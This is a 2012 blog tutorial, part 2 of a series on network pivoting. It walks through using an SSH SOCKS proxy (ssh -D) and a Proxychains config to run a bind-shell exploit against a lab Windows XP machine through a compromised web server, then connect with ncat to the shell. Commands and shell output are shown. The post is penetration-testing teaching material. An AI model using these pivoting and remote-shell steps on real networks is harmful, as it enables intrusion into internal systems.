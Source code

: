 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 2: Proxychains"
date: 2012-10-10 18:10:26 -0400
comments: true
categories: howto hacking
redirect_from: /2012/10/introduction-to-pivoting-part-2.html
---
```


This is part 2 of a series of posts on pivoting techniques. In part 1, we used SSH port forwarding to pivot our exploit and obtain remote access to our Windows XP machine. In this article, we'll be performing the same attack, but instead of using SSH local port forwarding, we'll use Proxychains and an SSH SOCKS proxy.

<!--more-->

Proxychains sends connections made by applications through a proxy specified in the proxychains.conf file. By default, it uses Tor's SOCKS port 9050. Proxychains 4 can be downloaded from [https://github.com/haad/proxychains](https://github.com/haad/proxychains).

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-10/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](https://gist.github.com/superkojiman/fcb256c4ca40da00ad9676efd07a161c).


### The attack

To use Proxychains, we need to connect to the web server via SSH and set it as a SOCKS proxy. This is easily accomplished with the -D option in SSH. This is the command we would run on our machine: 

```
ssh -D 127.0.0.1:8888 webmaster@192.168.81.181
```

We would now have port 8888 listening on our machine, and any connection sent to that port will be proxied over to the web server, and the web server will make the connection on our behalf.
Proxychains 4 allows us to specify a configuration file to use, so we'll create a simple one that basically tells it to use port 8888 on our machine as the proxy: 

```
strict_chain
quiet_mode
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
localnet 127.0.0.0/255.0.0.0
 
[ProxyList]
socks4  127.0.0.1 8888
```

We'll save this as pivot.conf. We'll use the same exploit as before, which should open a bind shell on port 4444 on our Windows XP machine. Instead of running the exploit directly, we pass it as an argument to Proxychains: 

```
# proxychains4 -f ~/pivot.conf /usr/bin/python exploit.py 192.168.63.142 10000
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
[+] sending payload of length 1479
[+] done
#
```

The -f option allows us to tell Proxychains which configuration file we want to use; in this case, pivot.conf. Notice that when we executed exploit.py, we specified the actual IP address of the target, and not 127.0.0.1, like we did in part 1. Proxychains makes it look like the target is directly accessible to us.

Now that the exploit has been executed, we can attempt to connect to the target on port 4444 and obtain our shell. In this case, I'll use ncat 

```
# proxychains4 -f ~/pivot.conf ncat -v 192.168.63.142 4444
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully obtained a remote shell on a machine on the internal network by pivoting with Proxychains. So far we've required SSH in order to pivot our attack. In part 3, we'll use ncat's client-to-client and listener-to-listener relays to perform our pivoting; a technique that does not require SSH. 
